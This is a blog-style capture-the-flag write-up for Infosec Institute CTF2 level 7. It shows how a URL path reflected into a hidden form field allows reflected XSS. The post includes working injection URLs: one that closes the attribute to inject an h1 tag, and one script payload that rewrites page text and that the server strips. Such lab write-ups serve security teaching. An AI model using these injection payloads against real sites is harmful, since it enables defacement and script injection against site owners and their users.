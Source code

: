 ```yaml
---
layout: post
title: Infosec Institute CTF2 Practical Web Hacking Level 7
category: Web
tags: infosec
---
```


**Vulnerability** A3 Cross-Site Scripting (XSS)
**Description:**

![screen]({{site.url}}/assets/Screen Shot 2015-07-17 at 1.38.50 PM.png)

## Write-up

For almost all levels I will be using Burpsuite. Burpsuite is an interception proxy that lets us modify the HTTP request
 / response by intercepting the data between the browser and the web server.
 
First let's inspect the source for anything interesting.

{% highlight html  %}
<form class="ex7-form" action="">
	<label for="name">    <span class="glyphicon glyphicon-user"></span>Username:</label>
	<input type="text" id="name" name="name" class="form-control input-lg"/>
	<label for="pass">   <span class="glyphicon glyphicon-lock"></span>Password:</label>
	<input type="password" id="pass" name="pass" class="form-control input-lg"/>
	<input name="action" type="hidden" value='/ctf2/exercises/ex7.php               '>
	<div>
		<input type="submit" class="btn btn-lg btn-default" value="Login"/>
		<input type="reset" class="btn btn-lg btn-danger" value="Reset"/>
	</div>
</form>
{% endhighlight %}

We see a "hidden" form that looks interesting... From the level description we know that since we need to share the page
with users, the XSS will be Reflective. Reflective XSS is done via the URL, let's start testing the URL.

If we insert '/TEST' at the end of the URL and inspect the source again, we will see that our string is being appended to the
hidden input field.

{% highlight html  %}
<form class="ex7-form" action="">
	<label for="name">    <span class="glyphicon glyphicon-user"></span>Username:</label>
	<input type="text" id="name" name="name" class="form-control input-lg"/>
	<label for="pass">   <span class="glyphicon glyphicon-lock"></span>Password:</label>
	<input type="password" id="pass" name="pass" class="form-control input-lg"/>
	<input name="action" type="hidden" value='/ctf2/exercises/ex7.php/TEST               '>
	<div>
        <input type="submit" class="btn btn-lg btn-default" value="Login"/>
		<input type="reset" class="btn btn-lg btn-danger" value="Reset"/>
	</div>
</form>
{% endhighlight %}

So to insert a &lt;h1&gt; tag, we need to inject a closing tag SQL injection style.

Final injection payload in the URL:

{% highlight text %}
http://ctf.infosecinstitute.com/ctf2/exercises/ex7.php/'><h1>Blah</h1>
{% endhighlight %} 

The source now looks like this:

{% highlight html  %}
<form class="ex7-form" action="">
    <label for="name">    <span class="glyphicon glyphicon-user"></span>Username:</label>
    <input type="text" id="name" name="name" class="form-control input-lg"/>
    <label for="pass">   <span class="glyphicon glyphicon-lock"></span>Password:</label>
    <input type="password" id="pass" name="pass" class="form-control input-lg"/>
    <input name="action" type="hidden" value='/'><h1>Blah</h1>               '>
    <div>
        <input type="submit" class="btn btn-lg btn-default" value="Login"/>
    	<input type="reset" class="btn btn-lg btn-danger" value="Reset"/>
	</div>
</form>
{% endhighlight %}

With the "/'&gt;" we are closing the current HTML tag and injecting the &lt;h1&gt;&lt;/h1&gt; tag.

![screen2]({{site.url}}/assets/Screen Shot 2015-07-17 at 3.42.45 PM.png)

I tried injecting some JavaScript so I can replace the "YOUR NAME HERE" text but it looks like JavaScript or anything that's not
&lt;h1&gt; gets stripped at the server side.

Injection URL:

{% highlight text  %}
http://ctf.infosecinstitute.com/ctf2/exercises/ex7.php/'><script>document.getElementsByClassName("label")[0].innerHTML = "<h1>The bishokukai were here!</h1>";</script>
{% endhighlight %}

And if we see the source, we will notice the &lt;script&gt; is stripped.

{% highlight html  %}
<input name="action" type="hidden" value='/ctf2/exercises/ex7.php/'>document.getElementsByClassName("label")[0].innerHTML = "<h1>The bishokukai were here!</h1>";               '>
<div>
{% endhighlight %}

## Links

* <http://ctf.infosecinstitute.com/ctf2/exercises/ex7.php>
